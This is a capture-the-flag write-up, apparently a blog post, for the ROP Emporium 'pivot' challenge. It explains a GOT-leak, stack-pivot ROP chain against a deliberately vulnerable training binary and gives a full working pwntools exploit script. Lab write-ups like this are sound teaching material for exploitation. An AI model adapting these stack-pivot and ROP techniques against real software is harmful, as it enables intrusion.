






 Here is my write-up for Pivot! This is probably my second favorite challenge of the RopEmporium series. 

# Recon
According to the challenge description we have to call the `ret2win()` function which resides in the shared library given to us called `libpivot.so`. The problem is PIE is enabled on `libpivot.so`. This means that even though it is accessible at runtime, we have no idea where `ret2win()` will be located in order to call it. Somehow we must leak a value in `libpivot.so` at runtime, calculate the base address of `libpivot.so` and then find the address at runtime of `ret2win()`. And it looks like there is one such function that will allow us to do just that. 

Looking at the functions in the `pivot` binary in GDB, we see a function called `foothold_function()`. 



The challenge description hints that we will have to call this `foothold_function()` so that it will update its entry in the GOT. Then we will have to find a way to print out it's value in the GOT. The function's GOT value will be the address where it currently resides in `libpivot.so` at runtime. We can use this information to find the base address of `libpivot.so` and then  by extension the address of `ret2win()` at runtime. Now, let's have a look at the program itself so that we can get an idea of how to achieve this. 



When we run the program, we are presented with two prompts. The first asks us to send a ROP chain and tells us that it will land at a specific address. The second prompt asks us to smash the stack. So, based on what we know, the exploit chain will look something like this. At the first prompt, we will send a ROP chain that calls `foothold_function()` in order to populate the GOT and calls `puts()` with the `foodhold_function@got` address as the main argument so that we can print out the address of `foothold_function()` in the GOT at runtime. We will then return back to main so that we can finish our exploit chain. 

# Exploitation
The first payload, written with python and pwntools, can be seen below. 

```python
payload1 = flat([
    elf.symbols['foothold_function'],
    pop_rdi,
    elf.symbols.got['foothold_function'],
    elf.plt.puts,
    elf.symbols.main
])

p.sendline(payload1)
```

We call the `foothold_function()` (we can do this because it is imported into the program itself) and use a `pop rdi; ret;` gadget to pop the address of the `foothold_function()` in the GOT into the `rdi` register. This is where the first function argument is stored according to x86_64 bit calling conventions. Then, `puts()` is called which prints out the aforementioned address. Finally, `main()` is called so we can return back to the start of the program to finish our exploit chain. 

Now that's the first stage of the exploit written. The only problem is, after we send it and arrive at the second prompt, our ROP chain lays dormant at the `pivot` address we are given. So, somehow, we will have to utilize the second prompt to attempt to redirect program execution to our dormant ROP chain. 

The program itself hints that we will have to smash the stack and cause a buffer overflow to redirect program execution and this is confirmed by looking in Ghidra. 

```c
void pwnme(void *param_1)
{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Call ret2win() from libpivot");
  printf("The Old Gods kindly bestow upon you a place to pivot: %p\n",param_1);
  puts("Send a ROP chain now and it will land there");
  printf("> ");
  read(0,param_1,0x100);
  puts("Thank you!\n");
  puts("Now please send your stack smash");
  printf("> ");
  read(0,local_28,0x40);
  puts("Thank you!");
  return;
}
```

Above we can see that when we are asked to smash the stack, we are reading in 0x40 bytes into a 32 byte buffer. Here is our buffer overflow! Now we can hop into GDB to find the number of bytes we will need in order to cause the buffer overflow and gain control of the instruction pointer. 



And, using a cyclic pattern, we found that the offset to the instruction pointer (`rip`) is 40 bytes! So now that we control program execution, how will we redirect execution to our ROP chain stored elsewhere in memory? That is where the `usefulGadgets()` function comes in! 



The gadgets we are interested in are the `pop rax; ret;` and `xchg rsp, rax; ret` gadgets. These would allow us to pop our pivot address we are given into `rax`. Then we can call the `xchg` gadget which will take our address we popped into `rax` and put it into `rsp`. Now our stack pointer points to our dormant ROP chain in memory. That payload would look like the following. 

```python
offset = 40
pop_rax = 0x00000000004009bb
xchg_rsp_rax = 0x00000000004009bd

payload2 = flat([
    offset * 'a',
    pop_rax,
    pivot_address,
    xchg_rsp_rax
])
```

So once we send our second payload, our first payload will then execute. And as a result, we are back at `main()`. Before we can send our third payload to call `ret2win()` we need to take care of some things. As a result of our first ROP chain we have the address of `foothold_function()` at the GOT. We'll need to parse this address and then calculate the base address of `libpivot.so`. That code would look like the following. 

```python
libpivot = ELF('libpivot.so')

p.sendline(payload2)
p.recvuntil(b'libpivot')
data2 = p.recv()
data2 = data2.split(b'\n')
print(f'\nLeaked string here {data2[1]}\n')
byte_string = data2[1]
foothold_got = int(binascii.hexlify(byte_string[::-1]).decode('utf-8'), 16)

print(f'foothold@got {hex(foothold_got)}')

libpivot_base = foothold_got - libpivot.symbols.foothold_function
ret2win = libpivot_base + libpivot.symbols.ret2win
```

Once we receive our leaked address we can parse it and convert it to an integer. Then we can take our leaked address and subtract it by its offset within `libcpivot.so`. This will yield our `libpivot.so` base address! Then we can calculate the address of the `ret2win()` function by adding the `ret2win()` offset found in `libpivot.so` with the `libpivot.so` base address. Now we know the location of `ret2win()` at runtime! And we can have a look below at what our exploit looks like so far when we run the script. 



So, now that we are back at `main()` we can send our final payload. This payload is quite simple; 40 bytes of junk and then our `ret2win()`  address! 

```python
payload3 = flat([
    offset * 'a',
    ret2win
    
])
p.sendline(payload3)
p.interactive()
```

With those three payloads we should get our flag. And we do, how about that! 



Below is the full exploit script. I hope you enjoyed this write-up! 

```python
from pwn import * 
import binascii

elf = context.binary = ELF('pivot')
libpivot = ELF('libpivot.so')

context.log_level = 'critical'

p = elf.process()

# Understand we need a GOT leak since we have to call ret2win() from the libpivot library which has PIE enabled 

pop_rdi = 0x0000000000400a33

offset = 40

payload1 = flat([
    elf.symbols['foothold_function'],
    pop_rdi,
    elf.symbols.got['foothold_function'],
    elf.plt.puts,
    elf.symbols.main
])

p.recvuntil(b'pivot: ')
data = p.recv()
data = data.split(b'\n')
pivot_address = int(data[0].decode(), 16)
print(f'Pivot address @ {hex(pivot_address)}')

p.sendline(payload1)

pop_rax = 0x00000000004009bb
xchg_rsp_rax = 0x00000000004009bd

payload2 = flat([
    offset * 'a',
    pop_rax,
    pivot_address,
    xchg_rsp_rax
])

p.sendline(payload2)
p.recvuntil(b'libpivot')
data2 = p.recv()
data2 = data2.split(b'\n')
print(f'\nLeaked string here {data2[1]}\n')
byte_string = data2[1]
foothold_got = int(binascii.hexlify(byte_string[::-1]).decode('utf-8'), 16)

print(f'foothold@got {hex(foothold_got)}')

libpivot_base = foothold_got - libpivot.symbols.foothold_function
ret2win = libpivot_base + libpivot.symbols.ret2win

payload3 = flat([
    offset * 'a',
    ret2win
    
])

p.sendline(payload3)
p.interactive()
```
